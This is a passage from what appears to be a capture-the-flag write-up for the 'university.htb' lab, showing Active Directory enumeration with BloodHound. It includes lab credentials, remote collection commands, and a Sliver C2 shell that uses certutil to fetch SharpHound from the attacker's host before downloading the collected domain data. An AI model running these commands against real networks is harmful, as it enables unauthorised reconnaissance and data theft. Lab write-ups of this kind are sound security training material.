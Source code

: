 
### Mapping the Domain with BloodHound


For this step, I used [Bloodhound CE](https://github.com/SpecterOps/BloodHound), the actively maintained version of BloodHound. There are many ways to enumerate and collect the necessary data
+ Remote Enumeration
    + Using BloodHound CE Python [bloodhound-ce-python](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce)
    ```bash
    bloodhound-ce-python -u 'WAO' -p 'WebAO1337' -ns 10.10.11.39 -d university.htb -c all --zip  --dns-tcp --dns-timeout 10
    ```
    + Using nxc 
    ```bash
    nxc ldap 10.10.11.39 -u wao -p WebAO1337  --bloodhound --collection All --dns-server 10.10.11.39
    ```
+ Local Enumeration (preferred) using `SharpHound`
    

    This is the most reliable one. Using the Sliver shell, I opted for SharpHound, which can collect more detailed data including certificates.


    1. Download the SharpHound collector 
        ```bash
        wget https://github.com/SpecterOps/SharpHound/releases/download/v2.7.0/SharpHound_v2.7.0_windows_x86.zip 
        unzip SharpHound_v2.7.0_windows_x86.zip
        ```
    2. Upload via Sliver shell `upload SharpHound.exe`
        
        If upload fails you can enter the interacting shell then upload it manually using 
        ```powershell
        certutil -urlcache -split -f http://10.10.16.39:8081/SharpHound.exe
        ``` 
        ![](https://cdn-images-1.medium.com/max/1000/1*ed7TqD7kGJeE79E-3Jlh5g.png)
    3. Using interacting shell in sliver `shell`
        ![](https://cdn-images-1.medium.com/max/1000/1*wLtVZwYoHy_PvjPpIh3hKA.png)
    4. Collect data
        ```powershell
        .\SharpHound.exe -c all
        ```
        ![](https://cdn-images-1.medium.com/max/1000/1*nfYrxisCNlYoITR_lUK48g.png)
    5. Download collected data
        ```
        exit
        download BloodHound.zip
        ```
    6. Ingest your collected data

#### Bloodhound Analysis
